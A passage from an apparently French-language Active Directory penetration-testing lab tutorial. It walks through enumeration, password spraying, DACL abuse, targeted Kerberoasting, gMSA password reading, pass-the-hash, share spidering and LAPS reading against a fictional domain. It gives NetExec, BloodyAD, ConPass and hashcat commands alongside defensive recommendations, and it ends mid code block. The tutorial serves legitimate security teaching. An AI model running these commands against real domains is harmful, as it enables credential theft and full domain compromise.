Afin de corriger cette vulnérabilité, vous pouvez utiliser ce [bulletin de sécurité](https://support.microsoft.com/en-us/servicing/os/windows-server/2020/10/how-to-manage-the-changes-in-netlogon-secure-channel-connections-associated-with-cve-2020-1472).

> La mise à jour d'un produit ou d'un logiciel est une opération délicate qui doit être menée avec prudence. Il est notamment recommander d'effectuer des tests autant que possible. Des dispositions doivent également être prises pour garantir la continuité de service en cas de difficultés lors de l'application des mises à jour comme des correctifs ou des changements de version.

### Ressources

- [Zerologon: Instantly Become Domain Admin by Subverting Netlogon Cryptography (CVE-2020-1472)](https://cybersecurity.bureauveritas.com/blog/zero-logon)
- [What Is Zerologon and How Do You Mitigate It?](https://netwrix.com/en/resources/blog/zerologon/)
- [ZeroLogon - THR](https://www.thehacker.recipes/ad/movement/netlogon/zerologon)
- [CVE-2020-1472 POC](https://github.com/dirkjanm/CVE-2020-1472)

## Résumé

Ce scénario nous a permis de voir comment exploiter différentes vulnérabilités au sein d'Active Directory afin d'obtenir un accès initial au domaine.



# Scénario 2

À présent, nous allons passer d'un scénario sans accès initial à un scénario assumed breach. Cela signifie que nous allons débuter avec un compte utilisateur du domaine disposant de privilèges standards.  
Dans ce lab, nous utiliserons le compte de l'utilisateur `pentester` et le mot de passe `ADPentest123!`.

## Enumération du Domaine

L'une des premières actions à réaliser après avoir obtenu un accès initial est de **collecter les informations du domaine**. Cette phase d'énumération a pour but de mieux comprendre l'environnement Active Directory dans lequel vous évoluez et d'identifier de potentiels vecteurs d'attaques qui vous permettront ensuite de vous déplacer latéralement, d'élever vos privilèges ou d'établir une persistance au sein du domaine.  

Plusieurs outils appelés collecteur de données peuvent être utilisés afin de collecter les informations du domaine. Parmi eux, vous avez [RustHound-CE](https://github.com/g0h4n/RustHound-CE), [NetExec](https://github.com/Pennyw0rth/NetExec) ou encore [Bloodhound-ce-python](https://github.com/dirkjanm/BloodHound.py/tree/bloodhound-ce).  

Cependant, ces collecteurs de données diffèrent les uns des autres en fonction, par exemple, des informations qu'ils collectent ainsi que de la rapidité avec laquelle ils s'exécutent.  

Par ailleurs, il est important de noter que les outils listés ci-dessus permettent de collecter les informations d'un domaine local (on-premise). Pour des environnements cloud (Entra ID), vous pouvez utiliser [AzureHound](https://bloodhound.specterops.io/collect-data/ce-collection/azurehound).  

### Méthodologie

Afin de collecter les informations du domaine avec NetExec, vous pouvez utiliser la commande suivante:  

```bash
nxc ldap 192.168.24.136 -u 'pentester' -p 'ADPentest123!' --bloodhound --collection all --dns-server 192.168.24.136
```



Par ailleurs, vous pouvez utiliser RustHound-CE ou Bloodhound-ce-python si vous le souhaitez:  

```bash
rusthound-ce -i '192.168.24.136' -d 'evilcorp.local' -u 'pentester' -p 'ADPentest123!' --zip
```



```bash
bloodhound-ce.py --zip -c All -d "evilcorp.local" -u "pentester" -p 'ADPentest123!' -dc dc01.evilcorp.local -ns 192.168.24.136
```



## BloodHound-CE

Après avoir collecté les informations du domaine, nous procéderons à leur analyse afin de détecter de potentiels chemins d'attaques.  

Pour cela, nous allons utiliser [BloodHound-CE](https://bloodhound.specterops.io/get-started/quickstart/community-edition-quickstart), qui est un outil permettant de représenter sous forme de graphe les relations entre les différents objets d'un domaine.  

Avant de passer à l'identification des vecteurs d'attaques, il faudra premièrement lancer BloodHound-CE puis importer les informations collectées via son interface web.  





L'un des premiers réflexes à avoir après l'importation des données dans BloodHound-CE est d'ajouter l'utilisateur que vous avez compromis à la liste des objets compromis.  



Après cela, vous pouvez énumérer les groupes auxquels il appartient ainsi que les permissions qu'il possède sur les autres objets du domaine. De plus, vous pouvez rechercher un chemin d'attaque entre deux objets du domaine en utilisant une fonctionnalité appelée **PathFinding**.  



Par ailleurs, BloodHound-CE vous offre la possibilité d'utiliser des requêtes Cypher pré-enregistrées (**Pre-built Cypher queries**) qui permettent d'énumérer des informations supplémentaires dans le domaine. Vous pouvez également créer et exécuter vos propres requêtes Cypher si vous le souhaitez.  



### Ressources

- [BloodHound Queries For All](https://queries.specterops.io/)
- [Pre-built Cypher queries documentation](https://bloodhound.specterops.io/analyze-data/explore/cypher-search)

## Enumération des Attributs Info et Description

Après importation des données dans BloodHound-CE, vous pouvez énumérer plusieurs informations telles que les groupes de sécurité de l'utilisateur compromis, ses permissions sur d'autres objets du domaine, les partages de fichiers auxquels il a accès, etc.  

Cependant, un des vecteurs d'attaques les plus simples consiste à énumérer les attributs [description](https://learn.microsoft.com/fr-fr/windows/win32/adschema/a-description) et [info](https://learn.microsoft.com/fr-fr/windows/win32/adschema/a-info) des utilisateurs du domaine.  

Ces attributs sont utilisés pour stocker des commentaires, des notes, ou des détails sur les objets (utilisateur, groupe, ordinateur) de l'Active Directory.  

En effet, il peut arriver que les administrateurs stockent des informations sensibles comme des mots de passes dans ces attributs. Sauf que..., comme nous le verrons, **ces attributs sont lisibles par tout utilisateur authentifié du domaine par défaut**.  

### Méthodologie

Afin d'énumerer les attributs description et info, vous pouvez utiliser respectivement les modules **get-desc-users** et **get-info-users** de NetExec comme suit:  

```bash
nxc ldap 192.168.24.136 -u 'pentester' -p 'ADPentest123!' -M get-desc-users
```





```bash
nxc ldap 192.168.24.136 -u 'pentester' -p 'ADPentest123!' -M get-info-users
```





### Recommandations

- Evitez de stocker des informations sensibles telles que des mots de passe dans les attributs info et description car ils sont lisibles par tout utilisateur authentifié du domaine.  
- Effectuez régulièrement une revue des attributs description et info des objets du domaine.

Utilisez la cmdlet suivante pour énumérer l'attribut `description` des objets du domaine:  
```powershell
Get-ADUser -Filter * -Properties Description | Select-Object SamAccountName, Description
```

Afin de supprimer le contenu de l'attribut description d'un utilisateur, utiliser la cmdlet PowerShell suivante:  

```powershell
Set-ADUser -Identity "<identify>" -Clear description
```

> Identity peut être le Sam Account Name (SAN) ou le Distinguished Name (DN).

Pour énumérer l'attribut `info` des objets du domaine, vous pouvez utilisez cette cmdlet:  

```powershell
Get-ADUser -Filter * -Properties Info | Select-Object SamAccountName, Description
```

### Ressources

- [Offsec Quick Tips: Info Attribute in Domain Objects](https://echeloncyber.com/intelligence/entry/offsec-quick-tips-info-attribute)
- [Get User Descriptions](https://www.netexec.wiki/ldap-protocol/get-user-descriptions)
- [Do you put anything in the description field of AD?](https://www.reddit.com/r/sysadmin/comments/12jp7iq/do_you_put_anything_in_the_description_field_of_ad/)

## Enumération de la Politique de Mots de Passe

Précédemment, nous avons trouvé les mots de passe des utilisateurs **r.heyworth** et **d.alderson** respectivement dans les attributs description et info. La prochaine étape consistera à vérifier si ces mots de passe ont été réutilisé par d'autres utilisateurs du domaine.  

Pour cela, nous allons réaliser une attaque par **password spraying** ou pulvérisation de mots de passe en français.  

Une bonne pratique à adopter avant de réaliser cette attaque est d'énumérer la **politique de mots de passe du domaine**. Cette vérification a pour but d'éviter de verouiller les comptes des utilisateurs après plusieurs tentatives échouées. 

### Méthodologie

Pour énumérer la politique de mots de passe du domaine, vous pouvez utiliser l'option `--pass-pol` de Nxc.  

```bash
nxc ldap 192.168.24.136 -u 'pentester' -p 'ADPentest123!' --pass-pol
```



Cependant, gardez à l'esprit qu'il est possible d'appliquer une politique de mots de passe spécifique à un groupe d'objets dans l'AD. Cette fonctionnalité est appelée **politique de mots de passe affinée** ou [Fine-Grained Password Policy](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/get-started/adac/fine-grained-password-policies) (FGPP) en anglais.  De plus, cette dernière est prioritaire sur la politique de mots de passe du domaine.  

Afin d'énumérer la stratégie de mots de passe affinée, vous pouvez utiliser l'option `--pso` de NetExec. 

```bash
nxc ldap 192.168.24.136 -u 'pentester' -p 'ADPentest123!' --pso
```



Par défaut, seuls les administrateurs ont le droit de lister le contenu des PSO. Autrement dit, nous ne serons pas en mesure de lire leur contenu en tant qu'utilisateur standard. De ce fait, il serait risqué de réaliser une attaque par password spraying sur les utilisateurs affectés par une PSO vu qu'on a aucune idée de la politique de mots de passe.  

Une solution à cela est de tout simplement ignorer ces utilisateurs lors de votre attaque.  

Ce qu'il faut retenir de cette section, c'est que l'énumération de la politique de mots de passe du domaine n'est pas suffisante pour réaliser le password spraying. En effet, l'énumération de la stratégie de mots de passe affinée est tout aussi importante.

### Ressources

- [Spray Passwords, avoid lockouts](https://www.login-securite.com/blog/spray-passwords-avoid-lockouts)
- [Configure fine grained password policies for Active Directory Domain Services](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/get-started/adac/fine-grained-password-policies)
- [Enumerate Domain Password Policy](https://www.netexec.wiki/smb-protocol/enumeration/enumerate-domain-password-policy-1)
- [Enumerate PSO](https://www.netexec.wiki/ldap-protocol/dump-pso)

## Password Spraying

Après avoir énuméré la politique de mot de passe du domaine ainsi que la politique de mots de passe affinée, nous allons procéder au password spraying.  

Le **password spraying** ([T1110.003](https://attack.mitre.org/techniques/T1110/003/)) est une attaque qui consiste à tester un même mot de passe sur plusieurs comptes. Cette attaque peut s'avérer efficace, car à partir d'une liste de mots de passe courants, un attaquant peut potentiellement compromettre plusieurs comptes utilisateurs au sein du domaine.  

Pour effectuer le password spraying, vous pouvez utilisez plusieurs outils tels que [NetExec](https://github.com/Pennyw0rth/NetExec), [Kerbrute](https://github.com/ropnop/kerbrute), ou encore [ConPass](https://github.com/login-securite/conpass).

Dans ce poste, nous allons utiliser [ConPass](https://github.com/login-securite/conpass) qui est un script Python permettant de réaliser le password spraying de façon continue, tout en tenant compte de la **politique de mots de passe effective** appliquée aux utilisateurs du domaine, du **seuil de verouillage** (Account lockout threshold) ainsi que du **temps d'attente pour que le compteur de tentatives échouées soit remis à zéro** (Reset account lockout counter after).  

Ces informations permettent de limiter le risque de verrouillage des comptes utilisateurs lors de l'attaque.  

Par ailleurs, ConPass ignorera les comptes utilisateurs affectés par une **PSO** (**P**assword **S**ettings **O**bject) si le contenu de la PSO en question n'est pas lisible.  

Une [PSO](https://www.it-connect.fr/strategie-de-mot-de-passe-affinee-sous-windows-server-2012-r2/) est un objet dans Active Directory qui permet de définir une politique de mot de passe spécifique pour certains utilisateurs ou groupes du domaine.  

### Méthodologie

Pour réaliser une attaque par password spraying avec `ConPass`, utilisez la commande suivante:  

```bash
conpass -d 'evilcorp.local' -u 'pentester' -p 'ADPentest123!' --dc-ip '192.168.24.136' --password-file pass.txt
```





ConPass stocke également les identifiants valides dans sa base de données. Vous pouvez les afficher avec cette commande:   

```bash
conpass -d 'evilcorp.local' --show
```



### Recommandations

- Implémenter une politique de mots de passe (longueur, complexité, configurer le nombre maximal de tentatives autorisées avant verrouillage) en phase avec les exigences de votre organisation.
- Effectuer un audit régulier des mots de passe en réalisant une attaque par dictionnaire contre les hashs NT des utilisateurs du domaine.
- Sensibiliser les utilisateurs aux bonnes pratiques liées aux mots de passe.

### Ressources

- [Spray Passwords, avoid lockouts](https://www.login-securite.com/blog/spray-passwords-avoid-lockouts)
- [ConPass](https://github.com/login-securite/conpass)

## Enumération des DACLs

Pour rappel, nous avons compromis les comptes des utilisateurs `r.heyworth` et `t.wellick`.  

À présent nous allons énumérer les permissions dont ils disposent sur les objets du domaine.  

Afin de mieux comprendre le fonctionnement des permissions dans Active Directory, il est important de comprendre ce que sont une DACL et une ACE.  

**DACL** (Discretionary Access Control List) est une liste de contrôle d’accès associée à un objet dans Active Directory. Elle contient les **ACE**s (Access Control Entry), qui définissent les permissions accordées ou refusées à des utilisateurs ou groupes sur un objet du domaine. Par exemple, une ACE peut autoriser ou refuser à un utilisateur le droit de modifier un objet.   



Une mauvaise configuration des permissions sur les objets peut permettre à un attaquant d'accéder à des ressources sensibles, de se déplacer latéralement sur le réseau ou encore d'élever ses privilèges.  

Plusieurs outils permettent d'énumérer les permissions qu'un utilisateur/groupe possède sur un objet donné. Parmi eux, vous avez [BloodHound-CE](https://bloodhound.specterops.io/openhound/community) ou encore [BloodyAD](https://github.com/CravateRouge/bloodyAD).  

### Méthodologie

Afin d'énumérer les ACEs de l'utilisatrice `d.alderson`, vous pouvez utiliser le module `daclread` de NetExec:  

```bash
nxc ldap 192.168.24.136 -u 'r.heyworth' -p 'Evilcorp2026!' -M daclread -o target=d.alderson
```



Concernant l'énumération avec BloodHound-CE, vous pouvez consulter la section `Outbound Control Objects`:  



Aucune information n'a été retourné par BloodHound-CE.  

> En cas de doute sur l'exploitation d'une permission, vous pouvez utiliser le menu "Help" dans BloodHound-CE qui vous expliquera l'ensemble des attaques possibles (sur Linux et Windows) ainsi que les commandes associées.

A présent, énumerons les permissions que l'utilisateur `r.heyworth` possèdent sur les autres objets du domaine en utilisant `BloodyAD`:  

```bash
bloodyAD -d 'evilcorp.local' --dc-ip 192.168.24.136 -u 'r.heyworth' -p 'Evilcorp2026!' get writable --detail
```





`r.heyworth` a le droit de modifier l'attribut "[UserAccountControl](https://www.it-connect.fr/active-directory-et-lattribut-useraccountcontrol/)" de l'utilisatrice `d.alderson`. L'attribut `UserAccountControl` permet de modifier le comportement d'un objet à travers la configuration de certaines propriétés. Dans notre cas, nous allons utiliser nos droits d'écriture pour réactiver le compte de `d.alderson` qui est désactivé comme vous pouvez le voir ci-dessous:  


Le status `STATUS_ACCOUNT_DISABLED` signifie que le compte  est désactivé.  

Pour réactiver le compte, nous allons utiliser BloodyAD comme suit:  

```bash
bloodyAD -d 'evilcorp.local' --dc-ip 192.168.24.136 -u 'r.heyworth' -p 'Evilcorp2026!' msldap enableuser  'CN=DARLENE ALDERSON,OU=R&D,OU=DEPARTMENTS,DC=EVILCORP,DC=LOCAL'
```



Une fois la commande exécutée, nous allons tenter de nous authentifier au compte de `d.alderson`:  



Dans le scénario décrit ci-dessus, nous avons activé le compte de l'utilisatrice `d.alderson` grâce aux permissions d'écriture que l'utilisateur `r.heyworth` avait sur son attribut "UserAccountControl". En revanche, cette information n'a pas été remontée par BloodHound-CE. Il a fallu utiliser BloodyAD pour la trouver. Cette situation illustre l'importance de diversifier les outils utilisés lors de l'énumération du domaine afin de ne pas manquer de potentiels chemins d'attaque.

### Recommandations

- Appliquez le principe du moindre privilège en limitant les droits et privilèges des objets du domaine au strict besoin opérationnel.
- Effectuez régulièrement un audit des permissions des objets du domaine. Pour cela vous pouvez utiliser BloodHound-CE ou [ADACLScanner](https://github.com/canix1/ADACLScanner).

### Ressources

- [DACLs and ACEs](https://learn.microsoft.com/en-us/windows/win32/secauthz/dacls-and-aces)
- [Access control entries](https://learn.microsoft.com/en-us/windows/win32/secauthz/access-control-entries)
- [DACL abuse](https://www.thehacker.recipes/ad/movement/dacl/)
- [An ACE Up The Sleeve - Designing Active Directory DACL Backdoors](https://www.youtube.com/watch?v=_nGpZ1ydzS8)
- [ACLs - DACLs/SACLs/ACEs](https://hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/acls-dacls-sacls-aces.html)

## Targeted Kerberoasting

Précédemment, nous avons activé le compte de `d.alderson` en modifiant son attribut UserAccountControl.  

À partir de ce nouvel accès, nous pouvons énumérer par exemple ses partages réseau, ses groupes d'appartenance, ainsi que les permissions qu'elle possède sur d'autres objets du domaine.  

Comme vous pouvez le voir dans la démonstration ci-dessous, BloodHound-CE a permis de trouver un chemin d'attaque entre l'utilisatrice `d.alderson` et l'utilisateur `web_svc`.  



d.alderson à la permission `GenericWrite` sur `web_svc`. Cela lui permet par exemple de modifier le SPN (Service Principal Name) du compte `web_svc` et de réaliser une attaque appelée Targeted Kerberoasting.  

Un **SPN** est un identifiant unique qui permet d'identifier un compte de service dans le domaine.  

Le **Targeted Kerberoasting** est une attaque qui consiste à **ajouter un SPN à un objet**. Pour cela, vous devez avoir des droits d'écriture (par ex GenericAll, GenericWrite, WriteProperty) sur le SPN de l'objet ciblé.  

### Méthodologie

Afin de réaliser cette attaque, vous pouvez suivre les étapes suivantes:

1/ Ajouter un SPN au compte vulnérable puis demander un ticket de service  

Cela peut être réalisé avec NetExec:  

```bash
nxc ldap 192.168.24.136 -u 'd.alderson' -p 'Supersecurepassword1#' --kerberoasting Kerberoastables.txt --targeted-kerberoast web_svc
```



La commande ci-dessus va ajouter un SPN temporaire à l'utilisateur `web_svc`, puis ensuite demander un ticket de service avant de supprimer le SPN rajouté.  

2/ Tenter de craquer en mode hors ligne le hash en utilisant John ou Hashcat  

```bash
hashcat -m 13100 -a 0 Kerberoastables.txt /opt/lists/rockyou.txt
```






> La réussite de cette dernière étape dépendra principalement de la complexité du mot de passe du compte ciblé ainsi que de l'algorithme de chiffrement utilisé.  

Le mot de passe de `web_svc` a été craqué avec succès. Vous pouvez tenter de vous authentifier à son compte en utilisant la commande `NetExec` suivante:  

```bash
nxc smb 192.168.24.136 -u 'web_svc' -p 'svc123'
```



### Recommandations

- Appliquez le principe du moindre privilège en limitant les supprimant les permissions non nécessaires permettant de modifier l'attribut ServicePrincipalName des comptes du domaine.
- Utilisez des mots de passe longs et complexes afin de rendre plus difficile les attaques hors ligne.
- Désactivez l'algorithme de chiffrement HMAC-RC4 si possible.

### Ressources

- [Targeted Kerberoasting](https://www.thehacker.recipes/ad/movement/dacl/targeted-kerberoasting)
- [NetExec Targeted Kerberoasting](https://www.netexec.wiki/ldap-protocol/kerberoasting#targeted-kerberoasting-targeted-kerberoast)

## Exploitation de GMSA

Pour le moment, nous avons compromis le compte de l'utilisateur `web_svc` grâce au Targeted Kerberoasting.  

Ce dernier est membre du groupe `WebServices` qui a la permission **AddSelf** sur le groupe `GMSA Admins`.  



Cette permission permet à tout membre du groupe `WebServices` de se rajouter au groupe `GMSA Admins`. Ainsi, on pourrait rajouter `web_svc` à ce groupe.  

Le groupe `GMSA Admins` est particulièrement intéressant vu que ses membres ont la permission de lire le mot de passe (**ReadGMSAPassword**) du compte de service `evil_gmsa$`.  



Un **[GMSA](https://learn.microsoft.com/en-us/entra/architecture/service-accounts-group-managed)** (Group Managed Service Account) est un compte de service pouvant être associé à plusieurs serveurs et dont le mot de passe est généré automatiquement par Active Directory puis renouvelé tous les 30 jours par défaut.  

En énumérant les groupes de `evil_gmsa$`, on peut constater qu'il fait partie du groupe `Domain Admins`. De ce fait, la compromission de ce compte de service entrainera la compromission de l'ensemble du domaine.  



Le scénario décrit ci-dessus illustre comment les permissions mal configurées sur les objets peuvent être chaînées entre elles pour compromettre le domaine.  

Passons maintenant à la pratique.  

### Méthodologie

1/ Pour commencer, ajoutons l'utilisateur `web_svc` au groupe `GMSA Admins` en utilisant BloodyAD:  

```bash
bloodyAD -d 'evilcorp.local' --dc-ip 192.168.24.136 -u 'web_svc' -p 'svc123' msldap addusertogroup 'CN=WEBSVC,OU=WEB,DC=EVILCORP,DC=LOCAL' 'CN=GMSA Admins,OU=GROUPS,DC=EVILCORP,DC=LOCAL'
```





`web_svc` a bien été rajouté au groupe `GMSA Admins` comme vous pouvez le voir sur l'image ci-dessus.  

2/ Vu que nous sommes membres du groupe `GMSA Admins`, nous pouvons lire son mot de passe en utilisant la commande suivante:  

```bash
nxc ldap 192.168.24.136 -u 'web_svc' -p 'svc123' --gmsa
```



Le hash NT de l'utilisateur `evil_gmsa$` a bien été récupéré.  

3/ Finalement, nous pouvons nous authentifier avec le hash de l'utilisateur `evil_gmsa$` en utilisant cette commande:  

```bash
nxc smb 192.168.24.0/24 -u 'evil_gMSA$' -H '82f1cd3d37534ed350c0af35184a7059'
```


Voici le chemin d'attaque complet:  



### Recommandations

- Appliquez le principe du moindre privilège en limitant l'accès aux mots de passe du gMSA aux utilisateurs et groupes qui en ont réellement besoin.
- Effectuez régulièrement un audit des permissions des objets du domaine ayant le droit de lire le mot de passe du gMSA. Pour cela vous pouvez utiliser BloodHound-CE ou [ADACLScanner](https://github.com/canix1/ADACLScanner).

### Ressources

- [AddMember](https://www.thehacker.recipes/ad/movement/dacl/addmember)
- [ReadGMSAPassword](https://www.thehacker.recipes/ad/movement/dacl/readgmsapassword)
- [Utilisation des gMSA](https://www.it-connect.fr/active-directory-utilisation-des-gmsa-group-managed-service-accounts/)

## Pass the Hash

Dans le poste précédent, nous avons obtenu le hash NT du compte evil_gmsa$ que nous avons ensuite utilisé pour nous authentifier sur le contrôleur de domaine.  

L'authentification via le hash NT au lieu du mot de passe en clair est appelée Pass the Hash (PtH).  

Le **Pass the Hash** ([T1550.002](https://attack.mitre.org/techniques/T1550/002/)) est une technique qui permet à un attaquant de s'authentifier sur une machine en utilisant le hash NT du mot de passe d'un utilisateur compromis. Cette technique est particulièrement intéressante car elle nécessite aucune connaissance du mot de passe en clair de l'utilisateur en question.  

Par exemple, il peut arriver que le mot de passe de l'administrateur local d'une machine soit le même sur toutes les machines du domaine. Dans ce cas précis, le Pass the Hash pourrait permettre à un attaquant d'accéder à l'ensemble des machines affectées par cette mauvaise pratique ainsi qu'aux ressources qu'elles hébergent.  

### Méthodologie

Voici les étapes pour réaliser une attaque par Pass the Hash:  

1/ Obtenir un ou plusieurs hashs NT d'utilisateurs.  

Cela peut être réalisé par exemple via l'extraction de secrets de la mémoire du processus LSASS ou en extrayant les secrets stockés dans la base SAM et NTDS.dit.  

2/ Utiliser les hashs NT obtenus pour vous authentifier auprès d'autres machines du domaine.  

Une fois qu'un nouvel accès a été obtenu, vous pourrez reprendre l'étape d'énumération puis tenter de vous déplacer latéralement et élever vos privilèges jusqu'à atteindre vos objectifs visés.  

Comme vous pouvez le voir ci-dessous, le PtH nous a permis d'obtenir un accès administrateur (admin) sur les machines DC01 et WS01:  

```bash
nxc smb 192.168.24.0/24 -u 'evil_gMSA$' -H '82f1cd3d37534ed350c0af35184a7059'
```



### Recommandations

- Ajoutez les comptes privilégiés au groupe de sécurité "[Protected Users](https://learn.microsoft.com/en-us/windows-server/security/credentials-protection-and-management/protected-users-security-group)". Cela permet par exemple d'empêcher l'authentification NTLM.
- Utilisez [LAPS (Local Administrator Password Solution)](https://www.it-connect.fr/tuto-configurer-windows-laps-active-directory/) pour la gestion des mots de passe des comptes d'administrateurs locaux.
- Mettre en place le [modèle d'administration en Tiers](https://sensepost.com/blog/2026/from-flat-networks-to-locked-up-domains-with-tiering-models/)
- Restreindre progressivement l'usage de NTLM au profit de Kerberos

Afin d'ajouter un utilisateur au groupe "Protected Users", utilisez la cmdlet suivante:  

```powershell
Add-ADGroupMember -Identity "Protected Users" -Members "username"
```

### Ressources

- [Hackndo Pass-the-Hash](https://beta.hackndo.com/pass-the-hash/)
- [Vaadata Pass-the-Hash](https://www.vaadata.com/fr/blog/pass-the-hash-principes-variantes-et-bonnes-pratiques/#pass-the-hash)
- [Netwrix Pass-the-Hash](https://netwrix.com/en/cybersecurity-glossary/cyber-security-attacks/pass-the-hash-attack/)

## Résumé



# Scénario 3

Au cours de ce scénario, nous allons couvrir différentes attaques telles que le user-as-pass, l'exploitation des partages réseau ainsi que de LAPS et nous terminerons sur les dangers liés à la mise en cache des identifiants.

## User As Pass

Lors de l'attaque par password spraying, nous avons réussi à compromettre les comptes de certains utilisateurs.  

Cependant, il existe un autre vecteur d'attaque lié aux mots de passe que nous n'avons pas encore testé. Il s'agit du user as pass.  

Le **user-as-pass** (user as password) est une attaque au cours de laquelle le nom d'un utilisateur est utilisé comme son mot de passe compte d'un utilisateur en utilisant comme mot de passe son nom d'utilisateur.  

Normalement, cela ne devrait pas être possible en raison de la politique de mots de passe du domaine, qui exige un certain niveau de complexité.  

Toutefois, si la politique de mots de passe du domaine **n'exige pas de complexité du mot de passe**, alors les utilisateurs pourront choisir des mots de passe faibles comme par exemple leurs noms d'utilisateurs, ce qui rend possible l'attaque par user as pass.  

### Méthodologie

Afin de réaliser l'attaque, vous pouvez utiliser ConPass avec l'option `--user-as-pass`. Il se chargera de récupérer automatiquement la liste des utilisateurs du domaine puis de retourner les identifiants valides.  

```bash
conpass -d 'evilcorp.local' -u 'pentester' -p 'ADPentest123!' --dc-ip '192.168.24.136' --user-as-pass
```



## Exploitation des Partages Réseau

Maintenant que nous avons compromis le compte de l'utilisateur `support`, l'objectif sera d'énumérer les ressources auxquelles il a accès. Pour cela, nous nous intéresserons aux partages réseau.  

Un **partage réseau** est une ressource, généralement un dossier, rendue accessible sur le réseau via le protocole SMB. Il est utilisé afin de faciliter le partage de documents entre les utilisateurs d'un réseau.  

En fonction des permissions définies sur un partage réseau, un utilisateur pourra **lire voire modifier** son contenu.  

En raison de mauvaises pratiques de sécurité, il peut arriver que des informations telles que des **mots de passe ou documents sensibles** soient stockés dans les partages réseau et accessibles par des utilisateurs dont l'accès n'est pas justifié.  

Par exemple, des identifiants de connexion stockés dans un partage réseau peuvent permettre à un attaquant d'accéder à d'autres comptes au sein du domaine.

Plusieurs outils, tels que NetExec, [Smbclient](https://www.samba.org/samba/docs/current/man-html/smbclient.1.html) ou [Smbmap](https://github.com/shawndevans/smbmap) permettent d'énumérer les partages réseau.  

Dans le scénario ci-dessous, nous allons utiliser NetExec pour énumérer les partages réseau accessibles à l'utilisateur support. Par la suite, nous téléchargerons le contenu du partage "Departments", dans lequel nous découvrirons une archive ZIP protégée par mot de passe. Après avoir craqué le mot de passe de l'archive ZIP, nous pourrons l'extraire et découvrir un fichier Excel contenant une liste d'utilisateurs et de mots de passe.  

### Méthodologie

Afin d'énumérer les partages de manière récursive, nous pouvons utiliser un outil comme [smbmap](https://github.com/shawndevans/smbmap):  

```bash
smbmap  --no-banner -d 'evilcorp.local' -H '192.168.24.136' -u 'support' -p 'support' -r departments --depth 3
```




Par ailleurs, vous pouvez utiliser le module `spider_plus` de NetExec afin de lister et télécharger l'ensemble des fichiers contenus dans les partages réseau accessible en lecture:  

```smb
nxc smb 192.168.24.136 -u 'support' -p 'support' -M spider_plus
```



Comme vous pouvez le voir ci-dessous, NetExec a généré un fichier `.json` contenant le contenu de chaque partage:  



Nous allons à présent télécharger le fichier `Mots_de_passes.zip`:  

```bash
nxc smb 192.168.24.136 -u 'support' -p 'support' --get-file '\\IT\Mots_de_passes.zip' 'Mots_de_passes.zip' --share 'Departments'
```



Convertissons le fichier ZIP en un hash craquable par john. La commande `zip2john` peut être utilisé à cette fin:

```bash
zip2john Mots_de_passes.zip > mdps_zip.hash
```



Finalement, nous pouvons réaliser notre attaque par dictionnaire avec `John`:  

```bash
john --wordlist=pass.txt mdp_zip.hash
````



Une fois le mot de passe craqué, nous allons procéder à l'extraction de l'archive ZIP:  

```bash
7z x Mots_de_passes.zip -p'Evilcorp2026!' -omdps
```



Ouvrons le fichier Excel afin de voir son contenu:  



Le fichier contient une liste d'utilisateurs ainsi que des mots de passe en claire. Utilisons NetExec afin de vérifier si ces comptes et mots de passe sont valides:  

```bash
nxc smb '192.168.24.136' -u 'users.txt' -p 'passwords.txt' --no-bruteforce --continue-on-success
```



Excellent! Nous avons reçu une authentification valide pour l'utilisateur `laps_reader`.

### Recommandations

- Limitez le stockage d'informations sensibles telles que des identifiants de connexion dans les partages réseau.
- Limitez les droits de lecture/écriture sur les partages réseau selon le principe du moindre privilège, en n'accordant l’accès qu’aux utilisateurs ou groupes dont le besoin est justifié.
- Auditez régulièrement les permissions sur les partages réseau afin de retirer celles qui ne sont plus nécessaires.

### Ressources

- [Partage de fichiers sur un réseau dans Windows](https://support.microsoft.com/fr-fr/windows/experience/connectivity-networking/file-sharing-over-a-network-in-windows)
- [SMB Enumeration Cheatsheet](https://0xdf.gitlab.io/cheatsheets/smb-enum)
- [Spidering Shares with NetExec](https://www.netexec.wiki/smb-protocol/spidering-shares)
- [Le Protocole SMB Pour Les Débutants](https://www.it-connect.fr/le-protocole-smb-pour-les-debutants/)

## Exploitation de LAPS

En énumérant les permissions de l'utilisateur `laps_reader`, on peut constater qu'il a la possibilité de lire le mot de passe LAPS sur les machines WS01 et WS02.  



**[LAPS](https://learn.microsoft.com/fr-fr/windows-server/identity/laps/laps-overview)** (**L**ocal **A**dministrator **P**assword **S**olution) est une solution qui permet de générer des mots de passe aléatoires, régulièrement renouvelés et uniques pour les comptes administrateurs locaux des machines (postes de travail et serveurs) Windows. Ces mots de passe sont stockés dans l'Active Directory, plus précisement dans certains attributs des comptes machines et protégés par des ACEs.  

Le but principal de LAPS est d'éviter que le même mot de passe administrateur local soit réutilisé sur plusieurs machines. Cela permet de réduire le risque qu'un attaquant ayant compromis le compte administrateur local d'une machine puisse réutiliser les mêmes identifiants pour accéder à d'autres machines du domaine.  

Il est important de noter qu'il existe deux versions de LAPS: **Windows LAPS** et **Legacy Microsoft LAPS**. Legacy Microsoft LAPS est une version obsolète de LAPS. Elle a été remplacée par Windows LAPS qui est intégré nativement aux versions récentes de Windows.   

Bien que LAPS possède d'intéressantes fonctionnalités de sécurité, il peut arriver que des mauvaises configurations rendent son déploiement "inefficace". Par exemple, une mauvaise configuration sur les droits de lecture du mot de passe LAPS peut permettre à un utilisateur non autorisé de lire le mot de passe d'un administrateur local et donc de s'authentifier et d'accéder à ses ressources.  

### Méthodologie

Comme vous pouvez le constater, `laps_reader` est membre du groupe `LAPS Admins` qui a la permission de lire le mot de passe LAPS sur les machines WS01 et WS02.  

Pour lire ces mots de passe, on peut utiliser le module `laps` de NetExec:  

```bash
nxc ldap 192.168.24.136 -u 'laps_reader' -p 'i$UCf5BAp$ecto*9iyHq' -M laps
```



### Recommandations

- Appliquez le principe du moindre privilège en restreignant l’accès aux mots de passe LAPS aux utilisateurs et groupes qui disposent d’un besoin légitime de les consulter.
- Effectuez régulièrement un audit des permissions des utilisateurs/groupes autorisés à lire le mot de passe LAPS. Pour cela vous pouvez utiliser BloodHound-CE ou [ADACLScanner](https://github.com/canix1/ADACLScanner).

Vous pouvez utiliser la commande suivante afin d'énumérer les utilisateurs autorisés à lire le mot de passe LAPS:

```powershell
